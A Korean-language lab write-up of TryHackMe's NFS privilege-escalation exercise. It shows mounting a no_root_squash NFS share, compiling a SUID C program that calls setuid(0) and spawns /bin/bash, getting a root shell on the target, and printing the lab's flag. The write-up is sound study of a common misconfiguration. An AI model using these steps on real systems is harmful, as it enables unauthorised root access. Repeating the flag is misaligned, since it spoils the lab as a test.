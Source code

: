 ## Privilege Escalation: NFS
> TryHackMe의 "Linux Privilege Escalation: NFS" 실습을 기반으로, NFS(Network File System)의 설정 오류를 이용해 SUID 바이너리를 업로드하고 루트 쉘을 획득한 과정을 상세히 정리하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.112.198
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: 잘못 설정된 NFS 공유 디렉토리 내에 SUID 바이너리를 업로드하여 루트 권한 획득
- **실습 일자**: 2025-04-20

---

### 2. 실습 과정

#### 2.1 SSH 접속 및 환경 분석
```bash
ssh karen@10.10.112.198
```
- 타겟 머신에 `karen` 계정으로 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

- `/etc/exports` 파일을 열어보니 NFS로 공유된 디렉토리(`/home/backup`, `/tmp`, `/home/ubuntu/sharedfolder`)가 `no_root_squash` 옵션과 함께 외부에 전체 공개되어 있는 것을 확인하였다.

![NFS 설정 확인](./screenshots/exports_nfs.png)

---

#### 2.2 NFS 공유 디렉토리 식별

- Kali 머신에서 `showmount -e 10.10.112.198` 명령어로 NFS 공유 목록을 조회하였다.

```bash
showmount -e 10.10.112.198
```
- `/home/ubuntu/sharedfolder`가 공유되고 있음을 확인하였다.

![showmount 결과](./screenshots/nfs_share.png)

---

#### 2.3 공유 디렉토리 마운트

- 공격 머신(Kali)에서 공유 디렉토리를 마운트할 임시 디렉토리를 생성하고, NFS로 공유된 디렉토리를 마운트하였다.

```bash
mkdir /tmp/attackmount
mount -o rw 10.10.112.198:/home/ubuntu/sharedfolder /tmp/attackmount
```
- `mount | grep attackmount` 명령어로 마운트가 정상적으로 이루어졌는지 확인하였다.

![NFS 마운트 확인](./screenshots/share_mount.png)

---

#### 2.4 루트 쉘 SUID C 파일 작성 및 컴파일
- `/tmp/attackmount` 디렉토리에 루트 쉘을 획득할 수 있는 C 코드를 작성하였다.
```c
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

![SUID 파일 작성](./screenshots/create_rootshell.png)


- 해당 코드를 `file.c`로 저장한 뒤, 정적 컴파일 및 SUID 권한 설정을 하였다.
```bash
gcc file.c -o file -static
chmod +s file
```

![SUID 파일 설정](./screenshots/compile_rootshell.png)

---

#### 2.5 타겟 머신에서 SUID 실행 및 루트 쉘, 플래그 획득
- 타겟 머신의 `/home/ubuntu/sharedfolder` 디렉토리로 이동하여 `file` 바이너리를 실행하였다.

```bash
cd /home/ubuntu/sharedfolder
./file
```

- 이 바이너리는 공격자가 공유 디렉토리를 통해 업로드한 것이며, `setuid(0)`을 통해 루트 권한을 획득할 수 있었다.

- 루트 쉘이 정상적으로 획득되었음을 확인하고, 시스템을 탐색하여 플래그 파일을 찾아 읽어냈다.

```bash
find / -name flag7.txt
cat /home/matt/flag7.txt
```

![루트 쉘 및 플래그 획득](./screenshots/root_flag.png)

---

### 3. 최종 결과
- `no_root_squash` 옵션이 설정된 NFS 공유 디렉토리를 통해 루트 권한 획득 성공 (`uid=0(root)`)
- 해당 설정은 공격자가 SUID 바이너리를 외부에서 업로드하고 실행할 수 있게 되어 매우 위험함.
- flag7.txt 파일에서 플래그 확보: `THM-89384012`

---

### 4. 배운 점
> ✅ 이번 실습을 통해, 단순한 파일 공유 설정 오류 하나가 전체 시스템 권한 상승으로 이어질 수 있음을 명확히 체감하였다. 특히 `no_root_squash` 설정은 공격자가 root 권한을 에뮬레이션할 수 있게 해주며, 실질적으로 시스템을 장악할 수 있는 강력한 백도어 경로가 된다.

